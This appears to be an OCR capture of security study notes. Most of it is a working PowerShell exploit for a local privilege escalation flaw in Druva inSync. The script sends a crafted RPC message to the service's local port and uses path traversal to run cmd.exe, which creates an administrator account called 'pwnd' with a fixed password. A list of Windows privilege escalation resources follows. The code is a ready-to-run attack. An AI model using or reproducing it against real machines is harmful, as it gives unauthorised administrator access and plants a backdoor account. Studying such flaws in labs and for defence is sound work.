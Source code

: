 $cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
When prompted for credentials, use the pwnd account.
``````

•	PayloadsAllTheThings - Windows Privilege Escalation
•	Priv2Admin - Abusing Windows Privileges
•	RogueWinRM Exploit
•	Potatoes
•	Decoder's Blog
•	Token Kidnapping
•	Hacktricks - Windows Local Privilege Escalation
